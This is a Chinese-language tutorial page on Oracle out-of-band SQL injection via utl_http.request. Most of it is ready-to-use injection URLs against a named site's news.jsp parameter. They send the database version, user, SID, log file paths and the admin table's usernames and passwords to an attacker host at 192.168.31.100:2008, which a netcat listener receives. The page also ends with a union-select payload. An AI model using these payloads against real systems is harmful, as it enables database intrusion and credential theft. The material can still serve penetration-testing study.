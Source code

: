 通过utl_http.request我们可以将查询的结果发送到远程服务器上，在遇到盲注时非常有用，要使用该方法用户需要有utl_http访问网络的权限。

## 1、检测是否支持utl_http.request

utl_http.request 页面正常 支持

```http
http://www.jsporcle.com/news.jsp?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --
```

## 2、监听本地信息

```bash
nc -vvlp 2008
```

## 3、查询oracle版本信息

```http
http://www.jsporcle.com/news.jsp?id=1 and  utl_http.request('http://192.168.31.100:2008/'%7C%7C(select banner from sys.v_$version where rownum=1))=1--
```

and utl_http.request('http://域名或者ip:端口/'||(注入的语句))=1 -- 

注意|| 注意转码%7C%7C

![image-20210408234133112](../../acess/image-20210408234133112.png) 

- 当前用户 (select user from dual)
- 当前数据库版本 ( select banner from sys.v_$version where rownum=1)
- 服务器出口IP (用utl_http.request 可以实现)
- 服务器监听IP (select utl_inaddr.get_host_address from dual)
- 日志文件 (select member from v$logfile where rownum=1)
- 服务器sid  远程连接的话需要， (select instance_name from v$instance)
- 当前连接用户 (select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual)

## 4、查询系统用户

```http
http://www.jsporcle.com/news.jsp?id=1 and%20 utl_http.request('http://192.168.31.100:2008/'%7c%7c(select user from dual))=1--
http://www.jsporcle.com/news.jsp?id=1 and%20 utl_http.request('http://192.168.31.100:2008/'%7c%7c(select member from v$logfile where rownum=1))=1--
http://www.jsporcle.com/news.jsp?id=1%20and%20%20utl_http.request(%27http://192.168.31.100:2008/%27%7c%7c(select%20instance_name%20from%20v$instance))=1--
```

## 5、查询admin的帐号和密码

```http
http://www.jsporcle.com/news.jsp?id=1 and utl_http.request('http://192.168.31.100:2008/'%7c%7c(select username%7c%7cpassword from admin))=1--
```

![img](file:///C:\Users\wzxmt\AppData\Local\Temp\ksohtml16336\wps5.jpg) 

```http
http://www.jsporcle.com/news.jsp?id=1 union select null,password,username from admin
```

 